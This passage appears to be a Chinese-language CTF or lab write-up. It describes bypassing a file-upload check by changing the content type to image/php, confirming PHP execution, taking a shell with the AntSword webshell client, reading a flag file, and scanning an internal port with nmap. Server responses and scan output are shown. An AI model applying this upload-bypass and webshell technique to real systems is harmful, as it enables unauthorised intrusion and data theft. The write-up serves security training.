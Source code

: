 将 `image/png` 修改为 `image/php`, 使服务器使用 `php` 作为后缀名.

得到如下响应:

```http
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Content-Type: text/html; charset=utf-8
Date: Fri, 16 May 2025 12:44:13 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Caddy
Server: Caddy
Server: nginx
Set-Cookie: 24b16fede9a67c9251d3e7c7161c83ac_ci_session=mcfhqflupgcv4qlnddi573c41p5a7ddu; expires=Fri, 16-May-2025 14:44:13 GMT; Max-Age=7200; path=/; httponly
X-Powered-By: PHP/5.6.36
Content-Length: 151

{"status":0,"code":"\u4e0a\u4f20\u9519\u8bef\uff1a<p>Your server does not support the GD function required to process this type of image.<\/p>","id":0}
```

即:

> 上传: 错误 <p>Your server does not support the GD function required to process this type of image.</p>

这说明代码已执行到 L201, 并在 L202 break, 因此 L188 的 `@file_put_contents` 语句并已经执行, 这说明文件已经上传成功.

## 2. 渗透

检查 <http://.../uploadfile/member/1/0x0.php>, 看到 `phpinfo()` 的输出 PHP 5.6.36 信息页面, 说明文件上传成功, 并且能够执行 PHP 代码.

使用 AntSword 连接到 <http://.../uploadfile/member/1/0x0.php>, 成功获得 shell.

在文件系统 `/` 根目录下, 发现 `flag` 文件, 获得敏感信息:

```
1d856be1-a340-4f56-8d26-f4f013a79d3f
```

根据 "关于" 页面中的提示, 使用 `nmap` 扫描 `192.168.9.130:8088`:

```sh
$ nmap 192.168.9.130 -p 8088
Starting Nmap 7.60 ( https://nmap.org ) at 2025-05-16 21:01 CST
Nmap scan report for 192.168.9.130
Host is up (0.00056s latency).
PORT     STATE  SERVICE
8088/tcp closed radan-http
Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds
```

发现端口是关闭的.
